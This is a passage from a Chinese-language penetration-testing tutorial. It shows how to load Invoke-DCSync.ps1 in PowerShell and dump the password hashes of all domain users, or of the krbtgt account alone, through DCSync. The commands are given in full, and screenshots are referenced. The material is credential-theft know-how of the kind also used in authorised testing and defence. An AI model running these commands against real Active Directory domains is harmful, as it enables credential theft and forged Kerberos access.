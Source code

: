 ![截图](37a530ae46abfb98229febe6b94d9453.png)

### 3.PowerShell 脚本

使用 Invoke-DCSync.ps1 脚本获取域内用户哈希。如下命令，可以获取所有用户或者指定用户哈希。

```
Import-Module .\Invoke-DCSync.ps1
#导出域内所有用户的哈希
Invoke-DCSync -DumpForest | ft -wrap -autosize
#导出域内指定 krbtgt 用户的哈希
Invoke-DCSync -DumpForest -Users @("krbtgt") | ft -wrap -autosize
```

如图所示，使用 Invoke-DCSync.ps1 脚本导出域内所有用户哈希。

![截图](aa2851ef6832f62834a27d7e10fd42cc.png)
